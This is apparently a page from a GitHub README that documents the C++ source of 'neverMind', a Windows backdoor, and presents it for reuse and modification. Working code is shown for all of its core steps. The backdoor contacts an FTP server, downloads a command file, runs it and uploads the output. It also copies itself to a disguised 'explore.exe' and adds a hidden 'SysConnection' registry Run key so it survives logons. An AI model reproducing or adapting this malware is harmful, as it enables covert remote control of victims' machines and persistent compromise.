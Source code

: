 `~neverMind()`: the destructor is empty as there are no specific resources that need to be cleaned up. this can be modified by you!

```cpp
neverMind::~neverMind()
    {
    }
```

#### backdoor operations 

`start()`: this function opens the backdoor, sets up necessary directories, connects to the FTP server, downloads + executes commands, and manages the registry.

```cpp
void neverMind::start()
    {
        if (!std::filesystem::exists(store_path))
            setup();
        ftp_connection.connect();
        if (!ftp_connection.cd(win_username)) {
            ftp_connection.mkdir(win_username);
            ftp_connection.cd(win_username);
        }
        std::string file_path = (std::filesystem::path(app_path) / "cmd.txt").u8string();
        if (ftp_connection.retr_file(file_path, "cmd.txt")) {
            Sleep(1500);
            compile(file_path);
        }
        ftp_connection.upload_file(output_path, "output.txt");
        Sleep(2000);
    }
```

`setup()`: this function sets up necessary directories and adds the backdoor to the registry for persistence.

```cpp
void neverMind::setup()
    {
        std::filesystem::create_directory(store_path);
        std::filesystem::create_directory(data_path);
        std::filesystem::create_directory(app_path);
        add_to_reg();
    }
```

`add_to_reg()`: this function adds the backdoor to the registry for persistence. it copies the current executable to a new location and adds it to the startup registry key. the command `reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v SysConnection /t REG_SZ /d \"" + dest + "\"` adds a new entry `SysConnection` to the `Run` key in the Windows Registry. the entry contains the path of the neverMind executable. as a result, the backdoor will be executed every time the user logs on to Windows.

```cpp
void neverMind::add_to_reg()
    {
        WCHAR path[MAX_PATH];
        int len = GetModuleFileNameW(NULL, path, MAX_PATH);
        std::string new_path;
        std::string dest = (std::filesystem::path(store_path) / "explore.exe").u8string();
        for (int i = 0; i < len; ++i)
            new_path += path[i];
        std::filesystem::copy_file(new_path, dest);
        system(std::string("reg add HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run /v SysConnection /t REG_SZ /d \"" + dest + "\"").c_str());
    }
```
